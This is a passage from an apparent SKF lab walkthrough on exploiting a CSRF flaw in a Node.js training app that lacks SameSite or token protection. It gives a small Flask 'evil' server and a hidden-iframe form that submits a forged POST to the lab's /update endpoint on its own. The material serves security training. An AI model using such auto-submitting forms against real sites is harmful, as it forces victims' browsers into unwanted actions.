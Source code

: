 ![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-SameSite/3.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```
